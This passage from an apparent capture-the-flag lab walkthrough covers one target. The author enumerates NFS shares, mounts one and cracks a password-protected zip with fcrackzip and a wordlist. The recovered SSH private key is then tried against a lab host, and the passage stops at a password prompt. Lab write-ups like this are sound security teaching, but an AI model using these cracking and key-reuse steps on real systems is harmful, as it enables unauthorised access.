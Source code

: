 We inspected the shares available using the `showmount`command. 

Next we created a directory `/mnt/dev` and saved our mount in there. 

The directory now contains a `save.zip` file. 

Trying to unzip requires a password. Which we do not have. On a side note, we can see the files inside the zip `id_rsa` and `todo.txt`.

Let’s try cracking the zip file using `fcrackzip`. Install it using `apt install fcrackzip`. Once that’s done:

```bash
┌──(kali㉿kali)-[/mnt/dev]
└─$ fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip
found file 'id_rsa', (size cp/uc   1435/  1876, flags 9, chk 2a0d)
found file 'todo.txt', (size cp/uc    138/   164, flags 9, chk 2aa1)

PASSWORD FOUND!!!!: pw == java101
```

Nice. A password `java101`.

```bash
┌──(kali㉿kali)-[/mnt/dev]
└─$ sudo unzip save.zip
Archive:  save.zip
[save.zip] id_rsa password: 
  inflating: id_rsa                  
  inflating: todo.txt                
                                                                                                                                                                                            
┌──(kali㉿kali)-[/mnt/dev]
└─$ ls
id_rsa  save.zip  todo.txt
                                                                                                                                                                                            
┌──(kali㉿kali)-[/mnt/dev]
└─$ cat todo.txt
- Figure out how to install the main website properly, the config file seems correct...
- Update development website
- Keep coding in Java because it's awesome

jp
```

The `id_rsa` file can be used to login into `ssh` and the todo.txt reveals what might be a user `jp`.

```bash
┌──(kali㉿kali)-[/mnt/dev]
└─$ ssh -i id_rsa jp@10.0.2.155                
The authenticity of host '10.0.2.155 (10.0.2.155)' can't be established.
ED25519 key fingerprint is SHA256:NHMY4yX3pvvY0+B19v9tKZ+FdH9JOewJJKnKy2B0tW8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.155' (ED25519) to the list of known hosts.
jp@10.0.2.155's password: 
Permission denied, please try again.
jp@10.0.2.155's password:
```
